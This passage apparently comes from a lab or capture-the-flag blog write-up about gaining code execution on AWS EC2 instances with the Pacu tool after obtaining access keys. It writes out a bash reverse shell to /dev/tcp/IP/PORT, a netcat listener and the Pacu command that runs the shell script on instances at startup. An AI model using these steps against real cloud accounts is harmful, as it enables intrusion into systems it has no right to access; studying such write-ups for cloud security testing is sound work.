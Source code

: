 
After setting the keys, I went straight to the enumeration of AWS `ec2 instances` ( ec2__enum in pacu ), since if we can call the `startup method` we could get `RCE` in `every instance` on the AWS.


#### Steps
To get Reverse Shell, I used my VPS. 

1. Create a file named shell.sh with the reverse shell code
2. Use something to receive the shell, in my case VPS
3. Call startup method with Pacu `run ec2__startup_shell_script`. For more information access this awesome article from rzepsky <a href="https://rzepsky.medium.com/playing-with-cloudgoat-part-5-hacking-aws-with-pacu-6abe1cf5780d">Exploiting AWS with Pacu</a>
4. B00m! Receive Shell


`shell.sh` ->
```bash
sh -i >& /dev/tcp/IP/PORT 0>&1
```

VPS with netcat:

```bash
nc -lnvp 9001
```

Running ec2 startup shell script in Pacu terminal

```
run ec2__startup_shell_script --script shell.sh --instance-ids instanceid@region
```


<img src="/assets/img/Posts/startup.png">

### GG We G0t RCE

<img src="/assets/img/Posts/shell.png">
